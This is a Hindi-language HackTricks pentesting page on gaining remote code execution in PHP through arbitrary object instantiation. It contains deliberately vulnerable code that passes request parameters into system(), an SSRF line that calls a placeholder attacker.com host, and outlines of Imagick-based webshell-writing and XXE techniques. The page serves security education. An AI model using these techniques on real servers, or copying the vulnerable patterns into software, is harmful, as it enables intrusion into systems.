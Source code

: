 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PRs सबमिट करके।

</details>

यह मुख्य रूप से [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) का सारांश है।

## परिचय

नए विचित्र ऑब्जेक्टों की रचना, जैसे कि `new $_GET["a"]($_GET["a"])`, दूरस्थ कोड निष्पादन (RCE) में ले जा सकती है, जैसा कि एक [**लेख**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तार से वर्णित है। इस दस्तावेज़ ने RCE प्राप्त करने के लिए विभिन्न रणनीतियों पर जोर दिया है।

## कस्टम क्लासेस या ऑटोलोडिंग के माध्यम से RCE

वाक्यरचना `new $a($b)` का उपयोग एक ऑब्ज
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस मामले में, `$a` को `App` या `App2` पर सेट करना और `$b` को एक सिस्टम कमांड (उदाहरण के लिए, `uname -a`) को निष्पादित करता है।

**ऑटोलोडिंग फंक्शन** का शोषण किया जा सकता है अगर कोई ऐसी कक्षाएँ सीधे पहुंचने योग्य नहीं हैं। ये फंक्शन फ़ाइलों से कक्षाएँ स्वचालित रूप से लोड करते हैं जब आवश्यक होता है और `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किए जाते हैं:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
## RCE के माध्यम से निर्मित कक्षाएं

कस्टम कक्षाओं या autoloaders की कमी में, **विलिन PHP कक्षाएं** RCE के लिए पर्याप्त हो सकती हैं। इन कक्षाओं की संख्या PHP संस्करण और एक्सटेंशन पर आधारित 100 से 200 के बीच हो सकती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीबद्ध किया जा सकता है।

रिफ्लेक्शन API के माध्यम से रुचि के निर्माता पहचानी जा सकती हैं, जैसा कि निम्नलिखित उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशेष विधियों के माध्यम से RCE शामिल हैं:**

### **SSRF + Phar डिसीरियलाइज़ेशन**

`SplFileObject` कक्षा अपने निर्माता के माध्यम से SSRF को सक्षम करती है, जिससे किसी भी URL पर कनेक्शन स्थापित किया जा सकता है:
```php
new SplFileObject('http://attacker.com/');
```
### **PDOs का शोषण करना**

PDO कक्लास कंस्ट्रक्टर डेटाबेस कनेक्शन को DSN स्ट्रिंग के माध्यम से संभावित रूप से फ़ाइल निर्माण या अन्य इंटरैक्शन को सक्षम करता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP के संस्करण 5.3.22 और 5.4.12 तक `SoapClient` और `SimpleXMLElement` constructors के माध्यम से XXE हमलों के लिए संवेदनशील थे, libxml2 के संस्करण पर निर्भर करते हुए।

## Imagick Extension के माध्यम से RCE

**एक परियोजना की आवश्यकताओं** के विश्लेषण में पाया गया कि **Imagick** को **नए ऑब्जेक्ट्स बनाकर** **कमांड निष्पादन** के लिए उपयोग किया जा सकता है। यह एक संरक्षण के लिए अवसर प्रस्तुत करता है।

### VID पार्सर

फ़ाइल सिस्टम में किसी भी निर्दिष्ट पथ पर सामग्री लिखने की VID पार्सर क्षमता की पहचान की गई। इससे एक PHP शैल को एक वेब-पहुंचने योग्य निर्देशिका में रखने की संभावना है, जिससे दूरस्थ कोड निष्पादन (RCE) हासिल किया जा सकता है।

#### VID पार्सर + फ़ाइल अपलोड

यह नोट किया गया है कि PHP अस्थायी रूप से अपलोड की गई फ़ाइलें `/tmp/phpXXXXXX` में संचित करता है। Imagick में VID पार्सर, **msl** प्रोटोकॉल का उपयोग करके फ़ाइल पथ में वाइल्डकार्ड का संचालन कर सकता है, जो चयनित स्थान पर अस्थायी फ़ाइल को स्थानांतरित करने में सहायक होता है। यह विधि फ़ाइल सिस्टम में विचारपूर्वक फ़ाइल लेखन हासिल करने के लिए एक अतिरिक्त दृष्टिकोण प्रदान करती है।

### PHP क्रैश + ब्रूट फ़ोर्स

[**मौलिक लेखन**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में एक विधि का वर्णन किया गया है जिसमें सर्वर को क्रैश करने वाली फ़ाइलें अपलोड करने की बात की गई है। अस्थायी फ़ाइल के नाम को ब्रूट फ़ोर्स करके, Imagick को विचारपूर्वक PHP कोड निष्पादित करने की संभावना हो जाती है। हालांकि, यह तकनीक केवल एक पुराने संस्करण के ImageMagick में प्रभावी पायी गई।

## संदर्भ

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>
